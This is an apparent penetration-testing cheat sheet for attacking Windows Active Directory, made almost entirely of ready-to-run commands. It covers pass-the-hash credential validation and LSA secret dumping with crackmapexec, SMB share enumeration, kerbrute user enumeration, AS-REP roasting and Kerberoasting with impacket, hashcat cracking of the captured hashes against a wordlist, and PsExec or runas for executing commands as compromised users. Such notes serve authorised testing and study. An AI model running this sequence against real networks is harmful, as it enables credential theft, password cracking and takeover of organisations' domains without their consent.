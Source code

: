 -> Validation of network user credentials via smb using crackmmapexec  
```
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> -d <domain> --continue-on-success
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> -d <domain> 
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> --local-auth --lsa  
crackmapexec smb 192.168.0.10-20 -u administrator -p <password>
```

-> Connect via smbclient
```
smbclient //ip -U <user> -L
```

-> smbmap
```
smbmap -H <ip> -u <user> 
```

-> See read permission of given user on smb shares
```
crackmapexec smb <IP> --shares -u <user> -p '<pass>'
```

### AS-REP Roasting Attack - not require Pre-Authentication
-> kerbrute - Enumeration Users
```
kerbrute userenum -d test.local --dc <dc_ip> userlist.txt
```
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

-> GetNPUsers.py - Query ASReproastable accounts from the KDC
```
impacket-GetNPUsers domain.local/ -dc-ip <IP> -usersfile userlist.txt
```

### Kerberoast
-> impacket-GetUserSPNs
```
impacket-GetUserSPNs <domain>/<user>:<password>// -dc-ip <IP> -request
```
or  
```
impacket-GetUserSPNs -request -dc-ip <IP> -hashes <hash_machine_account>:<hash_machine_account> <domain>/<machine_name$> -outputfile hashes.kerberoast
```

```
hashcat -a 0 -m 13100 ok.txt /usr/share/wordlists/rockyou.txt 
```
```
.\PsExec.exe -u <domain>\<user> -p <password> cmd.exe
```
or  
```
runas /user:<hostname>\<user> cmd.exe
```

